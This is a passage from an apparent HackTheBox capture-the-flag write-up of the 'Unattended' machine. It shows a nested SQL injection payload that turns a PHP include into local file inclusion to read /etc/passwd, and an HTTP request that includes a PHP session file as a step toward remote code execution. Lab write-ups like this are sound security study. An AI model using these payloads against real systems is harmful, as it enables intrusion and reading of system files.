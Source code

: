 ```
		while($row = $result->fetch_assoc()) {
			$ret = $row['path'];
		}
	}
	if ($debug) { echo "retpath: $ret<br>\n"; }
	return $ret;
}
```
<br> Table `filepath` :
```
+---------+--------------------------------------+
| name    | path                                 |
+---------+--------------------------------------+
| about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
| contact | 0f710bba8d16303a415266af8bb52fcb.php |
| main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
+---------+--------------------------------------+
```
<br> The first function gets called and its return value gets saved in the variable `tpl` : `$tpl = getTplFromID($conn);`
<br> Then the second function gets called with the variable `tpl` and its return value gets saved in the variable `inc`
<br> And finally it includes that page `include("$inc");`
<br> We have a `SQL` injection vulnerability which we can use to control what's being included, in other words we have a local file inclusion vulnerability.
<br> After some attempts to read `/etc/passwd` this payload worked : `' UNION SELECT "main' UNION SELECT '/etc/passwd';-- ";--`
![](/images/hackthebox/unattended/15.png)
<br>
<hr>
## LFI to RCE
<br> We need to get `RCE` from this `LFI`. If I could include my session file (`/var/lib/php/session/sess_[SESSION COOKIE]`) then I could put `php` code in a cookie and include it. My session cookie was `c5vmccsqkle2rdionj28kit221`.
<br> Request :
```
GET /index.php?id=25%27+UNION+SELECT+%22main%27+UNION+SELECT+%27/var/lib/php/sessions/sess_c5vmccsqkle2rdionj28kit221%27%3b--+%22%3b--+ HTTP/1.1
Host: www.nestedflanders.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
```